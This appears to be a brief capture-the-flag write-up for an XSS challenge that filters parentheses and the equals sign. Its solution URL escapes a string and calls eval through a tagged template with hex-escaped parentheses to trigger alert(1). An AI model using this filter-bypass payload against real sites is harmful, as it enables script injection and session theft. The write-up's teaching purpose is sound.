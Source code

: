 Description: Can you alert(1) this page (in firefox)?

It was not possible to use [jjencode](utf-8.jp/public/jjencode.html), because parenthesis and equal sign was filtered too.

Solution:
```
http://xss2.sect.ctf.rocks/?xss=stuff%22;eval.call`${'alert\x281\x29'}`;//
```

References:

[XSS Challenge Wiki](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml)
